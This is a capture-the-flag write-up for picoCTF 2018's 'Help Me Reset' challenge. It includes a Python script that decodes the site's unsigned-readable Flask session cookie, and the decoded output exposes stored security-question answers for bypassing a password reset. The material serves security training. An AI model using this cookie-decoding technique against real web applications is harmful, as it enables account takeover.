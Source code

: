 ## Help Me Reset - 600

### Description

> There is a website running at http://2018shell1.picoctf.com:45948 (link). We need to get into any user for a flag!

### Write up

source code of the index page shows the name of the developer

```
...
<!--Proudly maintained by dawe-->
...
```

trying to reset with this name asks question such as

```
What is you favorite color?
```

Interesting thing is, even if I refresh, the question still remains.

It means that it stores username inside cookie.

So, let's decode cookie with script below.

```
from itsdangerous import base64_decode, base64_encode
import zlib
import json
def decode(cookie):
    """Decode a Flask cookie."""
    try:
        compressed = False
        payload = cookie

        if payload.startswith('.'):
            compressed = True
            payload = payload[1:]

        data = payload.split(".")[0]

        data = base64_decode(data)
        if compressed:
            data = zlib.decompress(data)

        return data.decode("utf-8")
    except Exception as e:
        return "[Decoding error: are you sure this was a Flask session cookie? {}]".format(e)



cookie = '.eJxNjcEOgjAQRH_FzLkHNEqUX1FC1rICAl2yLfZA-Hfbi_H0MpPdNxvsqsouoIIlnWlkGCzi_fCcGNX9r32JtAk9qyRYmURRG-jQ9aGxsmZJYbB61qalQKg2HEJ29DSnj9u5LIrjtTxdYNKdcrb5haJL_Mg0-kgd56CDzYNvcewfDvVuEFVc91vZv4C0OxU.DpOdqw.KeTT-wuveMbwTmrUMLdtlVDcnSU'
decoded = decode(cookie)
print(decoded)

```

which shows

```
{"current":"carmake","possible":["carmake","food","hero","color"],"right_count":0,"user_data":{" t":["ham","9460018625",0,"red","spawn","volkswagen","rice","jones\n"]},"wrong_count":0}
```

answer is here!